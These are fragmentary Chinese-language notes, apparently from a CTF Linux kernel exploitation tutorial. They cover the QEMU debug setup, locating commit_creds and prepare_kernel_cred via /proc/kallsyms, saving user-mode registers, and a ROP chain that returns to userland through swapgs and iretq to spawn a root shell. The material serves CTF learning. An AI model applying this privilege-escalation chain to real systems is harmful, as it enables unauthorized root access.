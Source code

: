 ```
find . | cpio -o -H newc > ../core.cpio 压缩文件
```

```
-m：虚拟机内存大小
-kernel：内存镜像路径
-initrd：磁盘镜像路径
-append：附加参数选项
nokalsr：关闭内核地址随机化，方便我们进行调试
rdinit：指定初始启动进程，/sbin/init进程会默认以/etc/init.d/rcS作为启动脚本
loglevel=3 & quiet：不输出log
console=ttyS0：指定终端为/dev/ttyS0，这样一启动就能进入终端界面
-monitor：将监视器重定向到主机设备/dev/null，这里重定向至null主要是防止CTF中被人给偷了qemu拿flag
-cpu：设置CPU安全选项，在这里开启了smep保护
-s：相当于-gdb tcp::1234的简写（也可以直接这么写），后续我们可以通过gdb连接本地端口进行调试
```

commit_creds与prepare_kernel_cred可以通过下面这俩找到（commit_creds(prepare_kernel_cred(0));）

```
cat /proc/kallsyms | grep commit_cred
cat /proc/kallsyms | grep prepare_kernel_cred
```

```
unsigned long user_cs, user_ss, user_eflags,user_sp	;
void save_stats() {
	asm(
		"movq %%cs, %0\n"
		"movq %%ss, %1\n"
		"movq %%rsp, %3\n"
		"pushfq\n"
		"popq %2\n"
		:"=r"(user_cs), "=r"(user_ss), "=r"(user_eflags),"=r"(user_sp)
 		:
 		: "memory"
 	);
}
```

```
	rop[8] = canary ; 
	rop[10] = payload;
	rop[11] = swapgs;
	rop[12] = 0;
	rop[13] = iretq ;
	rop[14] = get_shell ; 
	rop[15] = user_cs;
	rop[16] = user_eflags;
	rop[17] = user_sp;
	rop[18] = user_ss;
	rop[19] = 0;
```

